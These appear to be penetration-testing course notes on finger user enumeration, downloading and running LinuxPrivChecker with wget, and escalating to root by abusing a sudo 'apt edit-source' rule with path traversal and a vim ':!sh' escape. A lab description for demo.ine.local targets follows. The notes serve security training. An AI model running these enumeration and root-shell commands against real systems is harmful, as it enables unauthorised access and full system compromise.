 ### Information Gathering - Video

*Finger*.
Although the finger protocol (port 79 TCP) dates back to the early days of UNIX, it is still commonly encountered today during internal penetration testing engagements, particularly within financial institutions, critical infrastructure organizations, and other environments that heavily rely on Linux-based platforms for their routine tasks.

`nmap -sT 192.168.1.2 -p79`: to check if finger service is listening.
`nmap --script finger 192.168.1.2 -p79`: to enumerate basic Linux users.

`for user in $(cat /usr/share/metasploit-framework/data/wordlists/unix_users.txt); do finger $user@<TargetIP>; done; > /root/Desktop/valid_users.txt`, `cat /root/Desktop/valid_users.txt | less`: to further enumerate for more users.

*LinuxPrivChecker*.
This tool will search the system for common misconfigurations, permission issues, SUID root executables, world-writable files and several other configuration issues which can lead to privilege escalation on a Linux system.

`python --version`: to check that Python is installed on the system.
`wget -q https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py`, `python linuxprivchecker.py > /root/Desktop/enum_output.txt`, `cat /root/Desktop/enum_output.txt | less`. 

It identified an interesting entry in the sudoers file:
```
user    ALL=(root)      NOPASSWD:       /usr/bin/apt edit-source ../*
```

`sudo /usr/bin/apt edit-source ../../../../../tmp/foo`: where `../../../../../tmp/foo` does not exist.
`select /usr/bin/vim.basic`, `:!sh`: since we are able to execute `/usr/bin/apt edit-source` as root to a file of our choosing using a long path name, and then choosing vim as our editor, our shell escape command was also run as root and has given us a root shell.

### Linux Exploitation: Lab 1 - Remote Enumeration - Lab

This exercise will help you understand how to perform enumeration on the remote linux systems to find vulnerable services, valid users and enumerate the benefits of finding juicy information.

In this lab environment, the user will access a Kali GUI instance. A vulnerable application can be accessed using the tools installed on Kali on:
- http://demo.ine.local
- http://demo2.ine.local
- http://demo3.ine.local
- http://demo4.ine.local

Dictionaries to use:
- `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
- `/usr/share/metasploit-framework/data/wordlists/unix_users.txt`

The best tools for this lab are:
- Nmap
- SMTP-user-enum
- finger-user-enum
- rpcclient
- enum4linux
- Bash Shell
- smbmap
- Metasploit Framework

---